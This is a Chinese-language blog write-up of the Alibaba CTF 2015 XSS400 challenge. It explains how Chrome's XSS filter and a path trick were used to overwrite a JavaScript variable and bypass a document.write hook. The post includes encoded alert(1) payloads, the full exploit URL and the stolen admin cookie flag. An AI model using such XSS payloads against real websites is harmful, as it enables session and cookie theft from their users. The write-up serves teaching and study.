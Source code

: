 ```yaml
---
layout: post
title: Alibaba CTF 2015 - XSS400 WriteUP
---
```

周末两天都在疗养睡眠，恰逢 AliCTF 与 0ctf 的夺旗赛，其实我都快睡到周一了，可惜下午被 R29 叫起来说阿里出了道 XSS400 分的题还没有队伍做出，另外说明一下经过朋友得知，如果此题只有一队做出来的话，才可以直接发表 WriteUP ，不然会导致其他作弊队伍抄袭 WriteUP ，所以在几小时搞定此题后，我简单记录下这道题，比较有趣：

- Flag 隐藏在管理员的 Cookie 中
- 要求在最新版 Chrome 触发
- http://1de28830f09a4b1b.alictf.com/pet.php?id=test&type=cat

<center>
<img src="http://ww3.sinaimg.cn/large/c334041bjw1eqmynsy8c2j20e707ct9a.jpg" />
</center>    <script>
        if(!window.chrome){
            alert('\u8bf7\u4f7f\u7528\u0043\u0068\u0072\u006f\u006d\u0065\u6d4f\u89c8\u5668\u6d4f\u89c8\u672c\u9875');
            location.href = 'https://www.google.com/chrome/';
        }
    </script>
    <script src="secWrite.js"></script>
    <script>var imageData = {name: "Oreo"}</script>
    </head>
    <body>
        <div id="console"></div>
        <img id="test" src="cat.jpg" name="cat" onload="loadSucc()" onerror="loadErr()">
        <script>
            function loadSucc(){
                document.write('This is '+imageData.name)    
            }

            function loadErr(){
                document.write('Load '+imageData.name+' Fail!')    
            }

        </script>
    </body>
    </html>
    
直接忽视 if(!window.chrome) 判断浏览器，看下 secWrite.js 文件：

    document.write = function(str){
        document.getElementById('console').innerText = str;
    }

id为imgID，type为imgName，这里对两个参数进行多种测试后发现无法逃逸出去，因为当 type 值不为 cat 后 imageData.name 值就被设为空值：

    <script>var imageData = {name: ""}</script>

所以考虑是否能够进行 js 的变量覆盖来对 imageData 进行 name 值的修改，这里提一个小插曲，在 IE 下是可以通过类似方法进行 js 变量覆盖的：
    <html>
    <body>
        <form id="location" href="bar">
        <script>alert(location.href)</script>
    </body>
    </html>
    
但是题目要求是在最新版的 Chrome 下执行 XSS 恶意代码，所以我想消灭开头的这段初始变量代码：

    <script>var imageData = {name: "Oreo"}</script>

因为如果我们能够通过一些技巧将开始的 imageData 消灭的话就可以通过将 URL 中的 ID 设置为 imageData ，随后修改 URL 中的 type 参数，达到控制 imageData.name 的目的。

这里利用 Chrome filter 的特性，之前 Sogili 在 Twitter 发表过的一个 Tip：使用 Chrome Filter 干掉对应的 js 代码，例如：```&a=<script>var imageData = {name: "Oreo"}</script>```会触发 Chrome 过滤器另源码中的对应代码段失效，所以我们利用这个特性就能够消灭掉初始化变量代码，从而覆盖 imageData.name，但浏览器不会重新渲染页面 DOM ，我们这里使用 /? 绕过 secWrite.js 的 hook ，从而使 d.w 重现 DOM：

[http://1de28830f09a4b1b.alictf.com/pet.php/?id=imageData&type=](http://1de28830f09a4b1b.alictf.com/pet.php/?id=imageData&type=)

这时会因为请求不到```/pet.php/secWrite.js```而绕过 hook，绕过 d.w 的钩子后我们继续。

> F12 输入 imageData.name , document.body.outerHTML 可以看调试结果

![http://ww4.sinaimg.cn/large/c334041bjw1eqmz6xpapuj213s0a4ad0.jpg](http://ww4.sinaimg.cn/large/c334041bjw1eqmz6xpapuj213s0a4ad0.jpg)

这个时候经过 dom 解析后源码变成了：

    <html><head></head><body data-feedly-mini="yes">Load evi1m0 Fail!</body></html>
    
我们可控的 imageData.name 也就是上面输出到页面中的 evi1m0，这时通过测试使用 HTML hex 16 将 ```<script>alert(1)</script>``` 编码，然后再进行 URL 编码即可：

![http://ww4.sinaimg.cn/large/c334041bjw1eqmz950158j20y20euq4u.jpg](http://ww4.sinaimg.cn/large/c334041bjw1eqmz950158j20y20euq4u.jpg)

    %26%23x3c%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x3c%3B%26%23x2f%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B
    
所以构造拼接起来的 alert URL：

[http://1de28830f09a4b1b.alictf.com/pet.php/?id=imageData&type=evi1m0%26%23x3c%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x3c%3B%26%23x2f%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B&a=%3Cscript%3Evar%20imageData%20=%20{name:%20%22%22};%3Cscript%3E](http://1de28830f09a4b1b.alictf.com/pet.php/?id=imageData&type=evi1m0%26%23x3c%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B%26%23x61%3B%26%23x6c%3B%26%23x65%3B%26%23x72%3B%26%23x74%3B%26%23x28%3B%26%23x31%3B%26%23x29%3B%26%23x3c%3B%26%23x2f%3B%26%23x73%3B%26%23x63%3B%26%23x72%3B%26%23x69%3B%26%23x70%3B%26%23x74%3B%26%23x3e%3B&a=%3Cscript%3Evar%20imageData%20=%20{name:%20%22%22};%3Cscript%3E)

![http://ww3.sinaimg.cn/large/c334041bjw1eqmzb7wmepj20k008swfg.jpg](http://ww3.sinaimg.cn/large/c334041bjw1eqmzb7wmepj20k008swfg.jpg)

修改最终版本的 Payload 并提交给 Alibaba CTF ，于是收到的 Cookie 字段：

    cookie : flag=aHR0cDovLzFkZTI4ODMwZjA5YTRiMWIuYWxpY3RmLmNvbS95aW5xdWJhaWZ1bWVpX2NodXJlbmNlb19yZW5zaGVuZ2RpYW5mZW5nLnBocD90b2tlbj03N2E2ZTNhMzJhNzUwOGY0OTg1N2IyZDA0ZTg2MjUwNA
    
BASE64 Decode:

    echo -n "aHR0cDovLzFkZTI4ODMwZjA5YTRiMWIuYWxpY3RmLmNvbS95aW5xdWJhaWZ1bWVpX2NodXJlbmNlb19yZW5zaGVuZ2RpYW5mZW5nLnBocD90b2tlbj03N2E2ZTNhMzJhNzUwOGY0OTg1N2IyZDA0ZTg2MjUwNA" | base64 -D
    http://1de28830f09a4b1b.alictf.com/yinqubaifumei_churenceo_renshengdianfeng.php?token=77a6e3a32a7508f49857b2d04e86250
    
![http://ww1.sinaimg.cn/large/c334041bjw1eqmzdx99woj20cx02swes.jpg](http://ww1.sinaimg.cn/large/c334041bjw1eqmzdx99woj20cx02swes.jpg)